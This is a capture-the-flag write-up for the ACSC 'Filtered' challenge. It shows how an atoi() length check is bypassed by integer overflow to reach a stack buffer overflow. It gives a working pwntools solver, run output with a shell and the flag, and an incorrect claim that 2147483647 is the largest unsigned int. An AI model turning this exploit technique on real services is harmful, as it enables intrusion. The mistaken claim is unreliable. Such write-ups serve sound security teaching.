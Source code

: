 ```yaml
---
description: Buffer overflow with a flawed length check
---
```


# Filtered

## Description

Filter invalid sizes to make it secure!  
  
Backup: `nc 167.99.78.201 9001`

`nc filtered.chal.acsc.asia 9001`

{% file src="../../.gitbook/assets/filtered.tar.gz\_9a6cb1b3eafce70ff549ba6b942f34a9.gz" caption="Challenge Files" %}

## Solution

Although there is a length check for `length > 0x100`, it is implemented using `atoi()`:

```c
/* Print `msg` and read an integer value */
int readint(const char *msg) {
  char buf[0x10];
  readline(msg, buf, 0x10);
  return atoi(buf);
}
```

I came across this thread: [https://stackoverflow.com/questions/41869515/overflow-when-change-from-string-to-int-in-c/41869611](https://stackoverflow.com/questions/41869515/overflow-when-change-from-string-to-int-in-c/41869611)

Using `2147483648`, an integer overflow is caused since the largest unsigned int is `2147483647`.

From here, this is a regular buffer overflow challenge. The offset is 280, and we want to jump to the win function here:

```text
0x004011d6    1 65           sym.win
```

Solver script:

```python
from pwn import *

conn = remote("167.99.78.201", 9001)

print(conn.recvuntil(b"Size:"))

conn.send(b"2147483648\r\n")

print(conn.recvuntil(b"Data:"))

conn.send(b"A" * 280 + p64(0x004011d6) + b"\r\n")

conn.interactive()
```

Get the flag:

```text
└─# python3 filtered.py
[+] Opening connection to 167.99.78.201 on port 9001: Done
b'Size:'
b' Data:'
[*] Switching to interactive mode
 Bye!
$ whoami
pwn
$ ls -la
total 36
drwxr-xr-x 1 root pwn   4096 Sep 18 02:21 .
drwxr-xr-x 1 root root  4096 Sep 18 02:21 ..
-r-xr-x--- 1 root pwn     40 Sep 18 02:20 .redir.sh
-r-xr-x--- 1 root pwn  17008 Sep 18 02:20 filtered
-r--r----- 1 root pwn     59 Sep 18 02:20 flag-08d995360bfb36072f5b6aedcc801cd7.txt
$ cat flag-08d995360bfb36072f5b6aedcc801cd7.txt
ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}
$
```

